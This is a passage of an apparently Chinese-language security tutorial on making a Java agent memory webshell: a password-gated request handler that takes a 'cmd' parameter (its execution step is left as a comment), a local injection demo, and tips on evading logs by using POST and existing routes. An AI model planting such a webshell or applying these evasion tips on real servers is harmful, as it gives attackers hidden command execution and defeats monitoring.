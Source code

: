    
    ```
    
4.  在`start.txt`中，写入恶意代码：
    
    ```
    {
        javax.servlet.http.HttpServletRequest request = $1;
     javax.servlet.http.HttpServletResponse response = $2;
     request.setCharacterEncoding("UTF-8");
        String result = "";
        String password = request.getParameter("password");
        if (password != null) {
            // change the password here
            if (password.equals("xxxxxx")) { 
                String cmd = request.getParameter("cmd");
                if (cmd != null && cmd.length() > 0) {
                    // 执行命令，获取回显
             }
                response.getWriter().write(result);
                return;
            }
     }
    }
    
    
    ```
    

### 注入示例

注入之前，访问`http://127.0.0.1:8080/`：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210416111903-7e7e50a6-9e62-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210416111903-7e7e50a6-9e62-1.png)

注入 Java agent：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210416111903-7e9a42e8-9e62-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210416111903-7e9a42e8-9e62-1.png)

注入后，访问`http://127.0.0.1:8080/?password=xxx&exec=ls -al`：

可以看到已经成功的执行了 webshell。

当注入内存 shell 之后，http 的请求流程如下（简化版）：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210416111903-7ecd7b36-9e62-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210416111903-7ecd7b36-9e62-1.png)

到这儿，一个简单的 Java agent 内存马就制作完成。

### 注意事项

1.  <font color="red"> 由于某些中间件（例如 nginx）只记录 GET 请求，使用 POST 方式发送数据会更加隐蔽。</font>
    
2.  <font color="red"> 由于在 Filter 层过滤了 http 请求，访问任意的路由都可以执行恶意代码，为了隐蔽性不建议使用不存在的路由。</font>
    
3.  <font color="red">agent 可以注入多个，但是相同类名的 transformer 只能注入一个，所以要再次注入别的 agent 的时候记得更改一下类名。</font>
    